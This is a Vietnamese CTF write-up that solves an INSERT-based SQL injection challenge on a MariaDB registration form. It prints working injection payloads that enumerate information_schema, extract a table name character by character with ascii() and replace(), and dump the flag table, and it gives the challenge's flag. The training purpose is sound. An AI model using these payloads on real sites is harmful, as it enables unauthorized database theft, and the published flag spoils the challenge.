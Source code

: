 # SQL injection - Insert
## Solution

![image](https://user-images.githubusercontent.com/86184794/162602227-38605f9a-10a6-43a9-8371-b503ecf84fb2.png)

Ban đầu challenge cho em 1 giao diện website như thế này. Có 2 tab cần chú ý là Authentication và Register.

![image](https://user-images.githubusercontent.com/86184794/162602256-df08ce8c-b474-4596-92b4-989e01e8d35f.png)

Em thử 1 tài khoản chưa được đăng ký challenge thông báo lỗi.

![image](https://user-images.githubusercontent.com/86184794/162602278-bd1d0ccf-de33-421b-b7d8-2decf23045af.png)

Sau khi đăng ký thành công thì được thông báo như hình.

![image](https://user-images.githubusercontent.com/86184794/162602289-f780221b-86d3-47a0-b27c-e00fd06a4a81.png)

Ở tab Register sau khi test thì có một số filter như sau:

- Username và password thì filter các kí tự đặc biệt.

- Email thì filter `substring`, `insert`

Database mà server sử dụng là MariaDB.

Bây giờ ta bắt đầu vào khai thác challenge. Ý tưởng là trong câu lệnh `Insert` em có thể thêm vào nhiều bộ giá trị vì thế em có thể tận dụng trường email là trường cuối cùng trong bộ giá trị để thêm những câu SQL vào.

Input:
```
1') , ('1', '1', (select group_concat(table_name) from information_schema.tables) ) ; -- 
```

![image](https://user-images.githubusercontent.com/86184794/162603146-cbf892bf-561d-4b4a-bbb5-b11e68db8730.png)

Sau khi user được đăng ký thành công thì em sẽ kích nó ở trong form login để nhận về giá trị của các bảng trong database.

Username: `1`

Password: `1`

![image](https://user-images.githubusercontent.com/86184794/162604364-6b046ceb-4b12-4ece-83b1-0775f0fc2d92.png)

Để ý rằng chuỗi được in ra bị giới hạn độ dài. Vì thế chắc giờ em sẽ phải đi select ra từng dòng trong bảng `information_schema.tables`.

Giờ phải in ra số dòng xem sao.
```
a1') , ('b2', 'b2', (select count(table_name) from information_schema.tables) ) ; -- 
```

![image](https://user-images.githubusercontent.com/86184794/162604508-fb70a938-c6e8-4be2-8b1a-3c6df57ddc30.png)

Database có 80 dòng.

Haizz giờ select ra từng dòng thì hơi căng.

Lưu ý là các bảng được tạo trong MariaDB sẽ nằm ở cuối.

Nên giờ em sẽ cố gắng hiện ra tên của các table cuối trong bảng.

Tiếp tục search google thì em tìm được hàm ascii() dùng để chuyển kí tự sang số.

Ví dụ:

ascii("binh")=ascii("b")= 98

Nếu ta nhập 1 chuỗi vào hàm ascii() thì nó chỉ convert kí tự đầu tiên của chuỗi.

Như vậy để in ra hết chuỗi thì sau mỗi lần in chúng ta sẽ xóa kí tự đầu tiên của chuỗi đi.

Input:
```
1') , ('bi10', '1', (select char(ascii(table_name)) from information_schema.tables limit 79, 1)); -- 
```
Username: `bi10`

Password: `1`

![image](https://user-images.githubusercontent.com/86184794/162605240-0e713ff5-1a26-42bf-9354-8e777a8eb307.png)

Kí tự đầu tiên của bảng cuối cùng là chữ `f`.

Giờ em sẽ xóa kí tự đầu tiên này bằng hàm replace().

Input:
```
1') , ('bi12', '1', (select char(ascii(replace(table_name, 'f', ''))) from information_schema.tables limit 79, 1)); -- 
```
![image](https://user-images.githubusercontent.com/86184794/162605385-4e6c68c7-8640-4c81-8489-e6e9c89abe97.png)

Đây là chữ `l`

Input:
```
1') , ('bi13', '1', (select char(ascii(replace(table_name, 'fl', ''))) from information_schema.tables limit 79, 1)); -- 
```
![image](https://user-images.githubusercontent.com/86184794/162605433-7e188ec9-acdb-4bd0-8821-96619dbf7d3b.png)

Đây là chữ `a`

Input:
```
1') , ('bi14', '1', (select char(ascii(replace(table_name, 'fla', ''))) from information_schema.tables limit 79, 1)); -- 
```

![image](https://user-images.githubusercontent.com/86184794/162605497-a6ae2959-8791-43a3-84ae-ee195129c9b6.png)

Đây là chữ `g`

Vậy 99% đây bảng cuối cùng này có tên là `flag`.

Giờ em sẽ in ra tất cả các trường trong table flag.

Input:
```
1') , ('bi15', '1', (select group_concat(column_name) from information_schema.columns where table_name='flag')); -- 
```
![image](https://user-images.githubusercontent.com/86184794/162605584-0e53cd80-a5d1-49f5-a164-36694e8c155c.png)

Trong table `flag` chỉ có 1 trường cũng tên là `flag` luôn

Input:
```
1') , ('bi21', '1', (select flag from flag )); -- 
```
![image](https://user-images.githubusercontent.com/86184794/162605680-56684f43-373d-497e-84b9-53a08b6be352.png)

Flag: moaZ63rVXUhlQ8tVS7Hw

